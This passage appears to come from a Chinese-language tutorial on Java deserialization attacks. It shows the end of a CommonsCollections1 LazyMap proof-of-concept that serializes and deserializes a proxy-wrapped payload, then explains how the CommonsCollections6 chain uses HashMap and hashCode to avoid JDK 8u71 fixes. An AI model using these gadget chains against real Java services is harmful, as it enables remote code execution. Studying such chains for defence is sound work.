 ```bash
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections6:

### 调用链：

CC1 在 jdk 的包更新到 8u71 以后，就对漏洞点进行了修复（`CC1TransformedMap`链去掉了`Map.Entry`的`setValue`方法）（`CC1LazyMap`使用了`put`对类进行传参），因为反序列化不仅对类有依赖，还对外部的 CC 库，以及 jdk 版本有依赖，所以这里 CC1 就并不那么兼容，就引入了`CC6`不受`jdk`版本的限制：

CC6 中引用了`HashMap`来进行反序列化链子的构造，通过`HashMap`里面的`readObject`方法来调用里面的`put`方法，然后调用 hash 方法最后调用`hashCode`方法，如果从`hashCode`里面能找到的一个调用`get`的链，就成功了，这样就不会受到 jdk 版本的限制：

[![](assets/1701612311-70832c63c71f6bb6439d8a29e1f32168.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235217-13a4fd7c-20cc-1.png)
